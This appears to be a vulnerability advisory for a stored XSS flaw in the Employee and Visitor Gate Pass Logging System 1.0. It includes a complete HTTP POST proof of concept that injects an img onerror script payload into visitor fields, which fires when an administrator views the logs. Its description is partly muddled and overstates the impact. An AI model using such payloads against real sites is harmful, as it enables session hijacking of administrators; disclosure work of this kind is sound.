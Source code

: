 ## Affected version: 
Employee and Visitor Gate Pass Logging System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Master.php?f=log_visitor

## Description:
The Employee and Visitor Access Log System 1.0 is vulnerable to unrestricted XSS attacks via /employee_gatepass/classes/Master.php?f=log_visitor?action=delete_category, the controllable parameter is: name. This function passes the name parameter into the malicious xss attack statement. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Master.php?f=log_visitor HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 199
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/
Cookie: PHPSESSID=j89mlbd5kdrbd4onu7hbvi3fm9
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23
Priority: u=1

type=1&name=%3Cimg+src%3D1+onerror%3Dalert('xss')%3E&contact=%3Cimg+src%3D1+onerror%3Dalert('xss')%3E&address=%3Cimg+src%3D1+onerror%3Dalert('xss')%3E&purpose=%3Cimg+src%3D1+onerror%3Dalert('xss')%3E
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/6efe3dc8-5a01-451a-a882-b345c66d7a90)

The administrator logs in to the backend and accesses the Visitors Logs function point to get a pop-up window.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/f705336f-53ab-4287-a757-70d71b821a97)



